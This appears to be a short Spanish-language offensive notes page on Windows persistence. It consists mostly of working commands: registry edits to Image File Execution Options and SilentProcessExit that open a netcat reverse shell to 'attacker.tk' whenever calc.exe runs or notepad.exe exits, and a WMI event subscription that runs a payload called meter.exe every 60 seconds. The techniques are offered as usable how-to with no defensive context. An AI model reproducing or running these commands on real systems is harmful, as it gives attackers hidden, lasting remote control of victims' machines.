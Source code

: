 La primera forma consiste en enviar una reverse shell cada vez que se ejecuta un programa

```null
copy calc.exe _calc.exe
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C _calc.exe & c:\windows\nc.exe -e c:\windows\system32\cmd.exe attacker.tk 8888" /f`
```

La segunda hará lo mismo pero al cerrar un proceso

```null
[+] Second Way
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "nc -e \windows\system32\cmd.exe attacker.tk 8888"
```

Pero para que no se abra una terminal cada vez que se ejecute, se puede crear una tarea que se ejecute en interavalos regulares de tiempo con los eventos WMI

```null
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="persistence", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="persistence", ExecutablePath="C:\users\admin\meter.exe",CommandLineTemplate="C:\users\admin\meter.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name="persistence"", Consumer="CommandLineEventConsumer.Name="persistence""
```